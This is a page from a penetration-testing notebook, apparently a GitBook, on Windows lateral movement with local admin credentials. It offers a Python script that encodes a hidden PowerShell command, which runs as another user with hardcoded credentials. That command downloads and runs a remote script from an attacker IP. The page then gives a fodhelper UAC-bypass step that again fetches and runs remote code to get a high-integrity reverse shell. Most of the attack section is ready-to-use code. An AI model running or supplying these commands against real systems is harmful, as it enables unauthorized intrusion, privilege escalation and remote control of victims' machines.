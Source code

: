 # Local Admin Lateral Movement

Useful if unable to PsExec, RDP, WINRM, but has local admin creds and low-privileged shell

**ps\_script.py**

* Edit lines 5-6 to be local admin creds
* Edit line 8 for attacker's IP for simple\_ps\_revshell

{% code lineNumbers="true" %}
```python
import base64

# Prepare the corrected PowerShell payload script to run as Bill
payload = (
    "$p=ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force; "
    "$c=New-Object System.Management.Automation.PSCredential('client02\\bill',$p); "
    "Start-Process -FilePath 'powershell.exe' -ArgumentList "
    "'-NoProfile -ExecutionPolicy Bypass -Command iex (New-Object Net.WebClient).DownloadString(''http://192.168.45.218/runall.ps1'')' "
    "-Credential $c -WindowStyle Hidden"
)

# Encode the payload in UTF-16LE and then Base64
b64 = base64.b64encode(payload.encode('utf-16le')).decode('ascii')

# Construct the final one-liner for execution
one_liner = f"powershell.exe -NoProfile -NonInteractive -EncodedCommand {b64}"

# Display the one-liner
print(one_liner)
```
{% endcode %}

python ps\_script.py

<figure><img src="../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

Then paste the encoded powershell command in the low privileged shell

<figure><img src="../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (337).png" alt=""><figcaption><p>This is normal!</p></figcaption></figure>

Might obtain a medium integrity shell only (checked using `whoami /all`)

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

[Bypass UAC using fodhelper.ps1](../privilege-escalation/privilege-escalation-windows.md#user-in-local-group-with-admin-privileges-uac-bypass)

```
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Edit IP and port in simple_ps_revshell.ps1
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

Obtained high integrity shell&#x20;

<figure><img src="../.gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>
